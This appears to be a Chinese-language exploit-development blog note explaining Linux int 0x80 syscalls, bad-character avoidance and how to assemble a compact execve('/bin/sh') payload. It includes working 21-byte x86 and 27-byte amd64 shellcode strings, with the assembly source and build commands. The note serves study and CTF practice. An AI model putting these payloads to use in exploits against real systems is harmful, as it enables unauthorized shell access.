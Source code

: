 ```yaml
---
title: Shellcode 's Magic
date: 2018-07-10 23:14:24
tags: basic
layout: default
---
```

shellcode 原理 & 21byte shllcode 
<!--more-->
# Shellcode
    Shellcode实际是一段代码（也可以是填充数据），是用来发送到服务器利用特定漏洞的代码，一般可以获取权限.
    虽然shellcode不常用 但是每次用到都要找博客比较麻烦今天整理一下。

## int 0x80
    将shellcode不得不提到汇编，也不得不提到int 0x80(实现系统调用）
    这里记录一下调用号
[常用的的调用号][1]
EAX | Name | EBX | ECX | EDX 
- | :-: | :-: | :-: | :-: |
1 | sys_exit | int 
3 | sys_read | unsigned int | char *  | size_t
4 | sys_write | unsigned int | const char * | size_t
5 | sys_open | const char * | int | int 
11 | sys_execve | struct pt_regs

    平时用的最多的是11号调用 execve("/bin/sh",0,0)
    也就是要求
 Reg | Vul
 :-: | :-:
 EAX | 11
 EBX | addr_of_sh
 ECX | 0
 EDX | 0

我们后面编写 shellcode 主要也是基于这个调用

## Make shellcode Yourself
自己编写 shellcode 主要优点 是灵活 可以随机应变 在一些特殊情况下可以编写 特定的 shellcode 或者 利用一些 寄存器原始值 来编写 十分短的shellcode.

### 坏字符
一般情况下首先考虑的是坏字符 其中0x00是最常遇到的问题 最常见的是使用xor

xor ax,ax ==> 0->ax

还有就是在mov时容易出现0x00
因为mov eax ,5;
其实是mov eax ,0x00000005
所以应该使用 mov al,5;

0xa坏字符遇到的不太多...如要绕过可以通过！@#￥%

### 参数/bin/sh
常见的做法是压入栈然后取eap
也就是
```asm
push 0x68732f2f
push 0x6e69622f 
mov ebx，esp
```

### Make it
souce:
```asm
Section .text
    global _start
_start:
	xor ecx, ecx
	mul ecx
	push ecx
	push 0x68732f2f
	push 0x6e69622f
	mov ebx, esp
	mov al, 0xb
	int 0x80
```
编译 链接 命令如下
```
nasm -f elf64 shellcode.asm -o shellcode.o
# 32位系统 用-f elf 
ld -s shellcode.o -o shellcode 
```
反汇编之后#objdump -d 

```
00000000 <_start>:
   0:	31 c9                	xor    %ecx,%ecx
   2:	f7 e1                	mul    %ecx
   4:	51                   	push   %ecx
   5:	68 2f 2f 73 68       	push   $0x68732f2f
   a:	68 2f 62 69 6e       	push   $0x6e69622f
   f:	89 e3                	mov    %esp,%ebx
  11:	b0 0b                	mov    $0xb,%al
  13:	cd 80                	int    $0x80
```
这里我们采用最灵活的人脑提取法得到shellcode
```
shellcode="\x31\xc9\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xb0\x0b\xcd\x80"
#浓缩的21byte
```


amd64shellcode
```
shellcode= "\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05";
```

[1]: https://blog.csdn.net/xiaominthere/article/details/17287965